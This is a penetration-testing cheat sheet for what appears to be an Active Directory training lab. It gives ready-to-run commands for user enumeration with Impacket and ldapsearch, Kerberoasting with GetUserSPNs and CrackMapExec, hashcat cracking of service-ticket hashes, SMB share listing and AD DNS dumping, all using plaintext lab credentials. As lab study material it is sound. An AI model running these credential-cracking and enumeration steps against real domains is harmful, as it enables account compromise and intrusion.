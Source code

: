 # Enumeration with user

## Impacket

```
GetADUsers.py -all north.sevenkingdoms.local/brandon.stark:iseedeadpeople 
```



## LDAP

Interresting queries for LDAP



{% embed url="https://podalirius.net/en/articles/useful-ldap-queries-for-windows-active-directory-pentesting/" %}

```
ldapsearch -H ldap://192.168.56.11 -D "brandon.stark@north.sevenkingdoms.local" -w iseedeadpeople -b 'DC=north,DC=sevenkingdoms,DC=local' "(&(objectCategory=person)(objectClass=user))" |grep 'distinguishedName:'
```

If a trust relationship is established between domains, yu can request users of the others domains with the previous command.

```
ldapsearch -H ldap://192.168.56.12 -D "brandon.stark@north.sevenkingdoms.local" -w iseedeadpeople -b ',DC=essos,DC=local' "(&(objectCategory=person)(objectClass=user))"
ldapsearch -H ldap://192.168.56.10 -D "brandon.stark@north.sevenkingdoms.local" -w iseedeadpeople -b 'DC=sevenkingdoms,DC=local' "(&(objectCategory=person)(objectClass=user))"
```



## Kerberoasting

Some users have an SPN tag set.

```
GetUserSPNs.py -request -dc-ip 192.168.56.11 north.sevenkingdoms.local/brandon.stark:iseedeadpeople -outputfile kerberoasting.hashes
# or
cme ldap 192.168.56.11 -u brandon.stark -p 'iseedeadpeople' -d north.sevenkingdoms.local --kerberoasting KERBEROASTING
# and then crack with hashcat
hashcat -m 13100 --force -a 0 kerberoasting.hashes /usr/share/wordlists/rockyou.txt --force
```

For the first command, the hashes are stored in the file **kerberoasting.hashes**. Notice also that you can see with this command if the delegation is constrained.



## Enumerate shares

```
cme smb 192.168.56.10-23 -u jon.snow -p iknownothing -d north.sevenkingdoms.local --shares
```



## Enumerate dns

> [https://github.com/dirkjanm/adidnsdump](https://github.com/dirkjanm/adidnsdump)



{% embed url="https://github.com/dirkjanm/adidnsdump" %}

```
adidnsdump -u 'north.sevenkingdoms.local\jon.snow' -p 'iknownothing' winterfell.north.sevenkingdoms.local
```

The results are stored in a records.csv file



## BloodHound

{% embed url="https://github.com/fox-it/BloodHound.py" %}

